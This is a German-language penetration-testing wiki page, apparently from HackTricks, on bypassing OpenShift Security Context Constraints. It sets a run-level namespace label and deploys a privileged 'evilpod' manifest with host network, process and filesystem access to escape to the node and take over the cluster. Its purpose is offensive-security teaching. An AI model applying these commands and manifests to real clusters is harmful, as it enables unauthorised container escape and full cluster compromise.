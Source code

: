 # Openshift - SCC bypass

{{#include ../../../banners/hacktricks-training.md}}

**Der ursprüngliche Autor dieser Seite ist** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Privilegierte Namespaces

Standardmäßig wird SCC nicht auf folgenden Projekten angewendet:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Wenn Sie Pods in einem dieser Namespaces bereitstellen, wird kein SCC durchgesetzt, was die Bereitstellung von privilegierten Pods oder das Einbinden des Host-Dateisystems ermöglicht.

## Namespace-Label

Es gibt eine Möglichkeit, die Anwendung von SCC auf Ihrem Pod gemäß der RedHat-Dokumentation zu deaktivieren. Sie müssen mindestens eine der folgenden Berechtigungen haben:

- Erstellen eines Namespaces und Erstellen eines Pods in diesem Namespace
- Bearbeiten eines Namespaces und Erstellen eines Pods in diesem Namespace
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
Das spezifische Label `openshift.io/run-level` ermöglicht es Benutzern, SCCs für Anwendungen zu umgehen. Laut der RedHat-Dokumentation werden bei Verwendung dieses Labels keine SCCs auf alle Pods innerhalb dieses Namensraums durchgesetzt, wodurch alle Einschränkungen effektiv aufgehoben werden.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Label hinzufügen

Um das Label in Ihrem Namensraum hinzuzufügen:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Um einen Namespace mit dem Label über eine YAML-Datei zu erstellen:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Jetzt sollten alle neuen Pods, die im Namespace erstellt werden, keine SCC haben.

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

In Abwesenheit von SCC gibt es keine Einschränkungen für Ihre Pod-Definition. Das bedeutet, dass ein bösartiger Pod leicht erstellt werden kann, um auf das Host-System zu entkommen.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Jetzt ist es einfacher geworden, Privilegien zu eskalieren, um auf das Hostsystem zuzugreifen und anschließend den gesamten Cluster zu übernehmen, wobei 'cluster-admin' Privilegien erlangt werden. Suchen Sie nach dem Abschnitt **Node-Post Exploitation** auf der folgenden Seite:

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Benutzerdefinierte Labels

Darüber hinaus können je nach Zielkonfiguration einige benutzerdefinierte Labels / Annotationen auf die gleiche Weise wie im vorherigen Angriffszenario verwendet werden. Auch wenn sie nicht dafür vorgesehen sind, könnten Labels verwendet werden, um Berechtigungen zu erteilen oder eine bestimmte Ressource einzuschränken oder nicht.

Versuchen Sie, nach benutzerdefinierten Labels zu suchen, wenn Sie einige Ressourcen lesen können. Hier eine Liste interessanter Ressourcen:

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Liste aller privilegierten Namespaces
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Fortgeschrittene Ausnutzung

In OpenShift, wie zuvor demonstriert, kann das Berechtigung, ein Pod in einem Namespace mit dem `openshift.io/run-level`-Label zu deployen, zu einer unkomplizierten Übernahme des Clusters führen. Aus der Perspektive der Cluster-Einstellungen **kann diese Funktionalität nicht deaktiviert werden**, da sie Teil des Designs von OpenShift ist.

Allerdings können Maßnahmen wie **Open Policy Agent GateKeeper** verhindern, dass Benutzer dieses Label setzen.

Um die Regeln von GateKeeper zu umgehen und dieses Label zu setzen, um eine Cluster-Übernahme durchzuführen, **müssen Angreifer alternative Methoden identifizieren.**

## Referenzen

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)



{{#include ../../../banners/hacktricks-training.md}}
